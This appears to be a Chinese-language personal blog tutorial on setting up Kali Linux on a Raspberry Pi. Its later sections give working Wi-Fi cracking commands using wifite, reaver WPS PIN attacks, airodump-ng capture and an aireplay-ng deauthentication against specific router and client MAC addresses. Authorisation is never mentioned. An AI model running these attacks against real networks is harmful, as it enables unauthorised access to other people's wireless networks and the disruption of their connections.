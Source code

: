 ```yaml
---
layout: post
title: 在树莓派上使用 Kali 进行"渗透测试"
category: Linux
tags: [Kali, 树莓派, 渗透测试]
latest: 2015年12月4日 14:10:44
---
```


Kali 是 BT 的前身，在渗透领域目前还没有发现比 Kali 更专业的 Linux 了。

Kali for Raspberry
-

在 Linux 虚拟机或者 Live 镜像中刻录 Kali 镜像到 MiniSD/TF 卡：

```
dd if=kali-pi.img of=/dev/sdb bs=512k
```

- **如何查看 U 盘挂载那个文件上了？Sdb sdb2 sdb1 ?**

- **开启远程桌面服务**

```
$ sudo apt-get install xrdp
$ sudo service xrdp start
```

- **用一条网线连接树莓派和笔记本**

基本步骤是用笔记本无线网卡联网共享给有线网卡，如果不做更改有线网卡获得的 IP，上述操作后有线网卡获得的 IP 将是 192.168.137.1。

然后在命令行中运行 `arp -a` 获得树莓派的从笔记本上获得的 IP，要在接口地址为 192.168.137.1 下面找 IP 地址为 192.168.137.2~192.168.137.244 这个范围内的 IP，如果有那就是树莓派从笔记本上获得的 IP。

##### **注意**

`arp -a` 后 `192.168.137.1` 下面不一定非是动态的才是树莓派上 Kali 获得的 IP，静态的也有可能

还有，使用上面获得的 IP 登录到树莓派之后，网络不一定会通，因为在 /etc/resolv.conf 这个配置文件中的 `nameserver` 是笔记本有线网卡的 IP 地址，而这显然是不管用的，所有需要在改配置文件中手动添加 DNS 服务器地址或者在笔记本上有线接口 IPV4 属性配置中添加可用的 DNS 服务器地址，比如 8.8.8.8 和 8.8.4.4，然后执行 `apt-get update` 等命令就可以使用笔记本无线网卡共享过来的网络了。

- **更新下 Kali Linux**

```
apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y
```

树莓派跑 pin
-

```
lsusb

apt-get install screen    # 为了可以 SSH 离线

apt-get install cowpatty 	# 不安装运行该程序的时候会提示

iwconfig

screen

wifite
```

寻找绿色信号的 带有wpa/wpa2 标志的、带有wps标志的目标。
 
然后天线找到最佳位置后按 ctrl+c，在下面新出现的一行输入你选定的目标行号，回车确定后就开始了自动探测。

破解时间快的话甚至可以秒破，慢的话就不好说了。

`~` 目录下将保存 wifi 的密码。


- **使用 reaver 破解开启 wps 功能的路由器密码**

```
reaver  -i  mon0  -b 8C:21:0A:5F:A2:FA  -a  -S  -vv  -d2  -t 5 -c 1
airmon-ng start wlan0
airodump-ng mon0
```

Aircrack-ng
-

```
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon

airmon-ng start wifi0 9

reaver -i mon0 -b F8:D1:11:31:50:24 -vv -c 6 -p 88948935
```

- **搜索不到无线?**

重置网络。

- **执行 `airmon-ng start wlan0` 提示错误，执行 `airodump wlan0mon`失败?**

```
sudo apt-get install rfkill
```

- Failed to associate with … …

- Request occur timeout … …

```
airodump-ng -c 6 –w wpa-wps wlan0mon

aireplay-ng -0 10 -a 50:BD:5F:0F:B9:BA -c BC:3A:EA:60:6C:61 wlan0mon
```

Screen 的使用
-

```
screen -S cracking    # 开启一个离线任务
screen -r cracking    # 恢复一个离线任务
exit                  # 退出 screen 会话
screen -ls            # 查看所有 screen 会话
screen -wipe          # 删除会话
```
参考
-

- <http://os.ctocio.com.cn/68/12957068.shtml>

- <http://shumeipai.nxez.com/2013/10/15/raspberry-pi-and-a-network-cable-directly-connected-laptop.html>

- <http://www.aircrack-ng.org/doku.php?id=faq#where_can_i_find_good_wordlists>

- <http://www.oschina.net/question/12_7909>

- <http://www.aircrack-ng.org/doku.php?id=cracking_wpa>

- <http://www.openwall.com/john/>

- [树莓派(raspberrypi)安装aircrack-ng,reaver及wifi破解教程[整理] | FindSpace](http://www.findspace.name/res/1184)
